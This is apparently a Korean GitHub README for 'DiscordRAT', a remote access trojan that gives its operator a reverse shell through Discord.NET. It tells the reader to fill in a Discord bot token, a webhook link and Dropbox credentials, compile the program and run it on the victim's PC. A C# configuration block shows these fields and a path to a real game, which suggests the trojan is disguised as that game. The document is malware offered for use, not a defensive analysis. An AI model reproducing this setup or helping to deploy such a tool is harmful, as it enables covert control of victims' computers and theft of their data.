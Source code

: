 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&desc=botNET&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
## Usage
[필수값](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/value.cs)을 수정해 봇,후크와 연동한후 컴파일 그리고 피해자PC에서 실행시키세요
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
